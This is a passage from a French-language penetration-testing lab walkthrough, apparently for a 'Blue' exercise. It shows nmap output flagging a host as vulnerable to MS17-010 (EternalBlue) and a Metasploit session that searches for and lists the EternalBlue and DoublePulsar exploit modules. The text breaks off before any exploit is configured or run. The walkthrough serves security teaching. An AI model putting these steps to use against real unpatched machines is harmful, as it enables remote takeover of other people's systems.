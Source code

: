 ```console
@@Host script results:@@
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

Comprendre la vulnérabilité pour préparer l'attaque : <br/>
* References : <br/>
       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/ <br/>
       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx  <br/>
       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143  <br/>

---

#### Attaque exploit :

**Metasploit** est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration et au développement de signatures pour les systèmes de détection d'intrusion.

Prise en main de Metasploit :

```console
$ msfconsole
```
<p align="center">
  <img src="https://github.com/kostarter/courses/blob/main/img/Screenshot_2021-09-25_at_14-59-26_Blue_01.png"/>
</p>

* Quelle est le nom de l'attaque à lancer ?
```
msf6 > search eternalblue
```

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
